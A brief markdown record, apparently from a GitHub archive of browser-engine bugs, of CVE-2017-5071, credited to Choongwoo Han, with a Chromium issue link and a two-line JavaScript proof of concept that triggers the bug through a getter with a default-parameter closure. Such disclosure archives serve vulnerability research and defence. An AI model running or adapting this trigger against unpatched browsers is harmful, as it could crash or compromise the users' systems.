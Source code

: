 # CVE-2017-5071

- Report: Apr 2017
- Fix: May 2017
- Credit: Choongwoo Han

## PoC

```javascript
this.__defineGetter__("x", (a = (function f() { return; (function() {}); })()) => { });
x;
```

## Reference

- [Issue](https://crbug.com/715582)
